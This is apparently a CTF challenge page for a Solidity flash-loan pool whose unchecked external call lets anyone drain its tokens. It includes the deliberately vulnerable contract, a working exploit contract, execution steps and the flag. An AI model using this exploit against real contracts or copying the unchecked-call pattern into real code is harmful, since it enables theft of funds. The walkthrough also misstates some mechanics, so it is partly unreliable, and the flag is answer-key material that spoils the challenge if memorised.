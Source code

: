 #### :warning: Please configure `processes` in Nginx Unit in Dockerfile according to server specs and [documentation](https://unit.nginx.org/configuration/#applications), right now it is not set, and the default value is 1, which is not optimal.

# Challenge Title/Description

LendingPool

Welcome to the LendingPool challenge! In this challenge, you'll be diving into a pool that offers flash loans of CTF tokens for free. The pool currently holds a balance of 1 million CTF tokens, while you start with nothing. However, there's no need to worry – you just might have what it takes to acquire them all from the pool.

### LendingPool
```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";


contract LendingPool is ReentrancyGuard {
IERC20 public ctfToken;


constructor(address tokenAddress) {
    ctfToken = IERC20(tokenAddress);
}


function flashLoan(uint256 borrowAmount, address borrower, address target,          bytes calldata data)
external
nonReentrant
{
    uint256 balanceBefore = ctfToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");


    ctfToken.transfer(borrower, borrowAmount);
    (bool success,) = target.call(data);
    require(success, "External call failed");


    uint256 balanceAfter = ctfToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}


function isSolved() public view returns (bool) {
    return ctfToken.balanceOf(address(this)) == 0;
}
}
```

### CTF Token
https://mumbai.polygonscan.com/address/0xfa8994aa87c97e291dc8f08d88d76a1c623474d7

Note: To participate in this challenge, please ensure you possess Mumbai Testnet Matic tokens.
https://mumbaifaucet.com/

# Write Up

Welcome to the LendingPool challenge! In this writeup, we'll explore a vulnerability in the LendingPool contract that can be exploited using a carefully crafted smart contract. Our goal is to gain unauthorized access to the pool's funds and claim them for ourselves.

Exploit Contract:

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


import {LendingPool} from "./LendingPool.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";


contract LendingPoolExploit {
function attack(address _pool, address _token) public {
    LendingPool lendingPool = LendingPool(_pool);
    IERC20 token = IERC20(_token);


// call flashloan
    // call token.approve(exploit, 2 ** 256 - 1)
    bytes memory data = abi.encodeWithSignature("approve(address,uint256)",  address(this), 2 ** 256 - 1);


    lendingPool.flashLoan(0, msg.sender, _token, data);


    // token.transferFrom(pool, msg.sender, balance of pool)
    token.transferFrom(_pool, msg.sender, token.balanceOf(_pool));
}
}

```
Exploit Explanation:
- The exploit contract interacts with the vulnerable LendingPool contract to drain funds.
- It initiates the flashLoan function, allowing a borrower to temporarily borrow tokens, provided they pay them back along with a fee.
- The contract encodes an approval for itself to spend unlimited tokens from the pool.
- Upon executing the flashLoan function, the exploit contract's attack function is invoked, resulting in the attacker receiving tokens from the pool.

Execution:

To execute the exploit, follow these steps:

- Deploy the LendingPoolExploit contract.
- Run the attack function, passing the address of the vulnerable LendingPool contract and the address of the target token (CTF token) as arguments.
- The flashLoan function will be called, and the attacker contract will receive tokens from the pool.
- The transferFrom function is then invoked, transferring the remaining tokens from the pool to the attacker's address.

# Flag

UCTF{Urmia_P4radise0fIran}

# Categories

Check the categories which the challenge belongs to.

- [x] Web
- [ ] Reverse
- [ ] PWN
- [x] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Steganography

# Points

| Warm up | This Challenge  | Evil |
| ------- |:---------------:| ----:|
| 25      |       450       | 500  |

# Resources

You should create a folder including all needed files. You may create the challenge using [Docker Compose](https://docs.docker.com/compose/gettingstarted/). Additionally, You may put your files here including *reverse engineering* or *pcap* files.
